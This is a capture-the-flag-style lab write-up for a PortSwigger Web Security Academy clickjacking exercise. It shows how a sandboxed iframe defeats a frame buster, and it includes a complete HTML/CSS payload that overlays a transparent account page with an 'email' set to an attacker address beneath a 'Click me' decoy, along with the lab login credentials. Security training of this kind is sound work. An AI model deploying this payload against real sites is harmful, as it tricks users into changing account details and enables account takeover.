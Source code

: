 # Clickjacking with a frame buster script

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". 

## Reproduction and proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `385px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="https://lab-id.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking4.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to change another user's email address. You can log in to your own account using the following credentials: `wiener:peter`. _Note: The victim will be using Chrome so test the exploit on that browser._
